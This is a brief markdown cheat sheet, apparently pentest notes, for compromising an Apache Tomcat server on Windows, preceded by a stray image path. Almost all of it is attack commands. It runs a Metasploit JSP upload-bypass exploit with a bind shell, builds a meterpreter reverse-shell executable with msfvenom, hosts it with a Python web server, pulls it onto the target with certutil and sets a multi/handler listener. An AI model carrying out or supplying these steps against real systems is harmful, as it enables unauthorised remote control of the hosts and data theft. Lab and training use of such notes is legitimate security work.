 # Apache Tomcat 8080 Windows system
  - __`search type:exploit tomcat`__
For windows
```
use exploit/multi/http/tomcat_jsp_upload_bypass
info 
set payload java/jsp_shell_bind_tcp
set SHELL cmd
exploit
```

- __`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<yourip> LPORT=4444 -f exe > meterpreter.exe`__
- __`sudo python -m SimpleHTTPServer`__

__After hosting the file login in to the target system and download the payload__
  - __`certutil -urlcache -f http://<youip>/meterpreter.exe meterpreter.exe`__

__After downloading the payload in target system you need to set the listern__

- `nano get.rc`
__In that file__
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <youip>
set LPORT <4444>
```
__And execute the meterpreter.exe in the target system__
  - `.\meterpreter.exe`
